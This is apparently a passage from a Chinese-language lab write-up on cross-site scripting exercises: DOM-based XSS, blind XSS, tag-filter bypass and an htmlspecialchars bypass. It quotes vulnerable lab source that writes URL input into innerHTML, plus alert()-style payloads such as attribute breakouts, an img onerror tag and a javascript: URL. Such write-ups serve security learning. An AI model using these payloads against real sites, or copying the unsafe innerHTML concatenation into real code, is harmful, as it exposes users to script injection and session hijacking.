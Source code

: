 
#### DOM型XSS-X

DOM型XSS-X危害比DOM型XSS更大，可以在URL中体现

看到源码

```js
 <script>
                    function domXSS(){
                        var str = window.location.search;
                        var tXSS = decodeURIComponent(str.split("text=")[1]);
                        var XSS = tXSS.replace(/\+/g,' ');
//                        alert(XSS);

                        document.getElementById("dom").innerHTML = "<a href='"+XSS+"'>就让往事都随风,都随风吧</a>";
                    }
                    //试试：'><img src="#" onmouseover="alert('XSS')">
                    //试试：' onclick="alert('XSS')">,闭合掉就行
                </script>
```

发现是`js`函数利用了`DOM`将字符串拼接并把值赋给a标签的href，然后输出一个`就让往事都随风,都随风吧`，所以我们先给href拼接上，然后再写个onclick1就能0你实现

```js
#' onclick="alert(111)">
```



#### XSS之盲打

只是因为显示不出来，但是后台能看见，如果盲打的话可以偷偷操控某些控件，~~比如实现自动提交？~~

```js
<script>alert(1);</script>
```



#### XSS之过滤

换个标签即可，这个在`XSS cheatshee`t里很多

```js
<img src=xx onerror=alert(1)>
```



#### XSS之htmlspecialchars

`specialchars`这个函数会把单引号，双引号，尖括号过滤了，但是这个函数默认是不过滤单引号的，只有将quotestyle选项为ENT_QUOTES才会过滤单引号。

发现正常的内容会被放到href里面，所以输入

```js
javascript:alert(1)
```

#### XSS之href输出
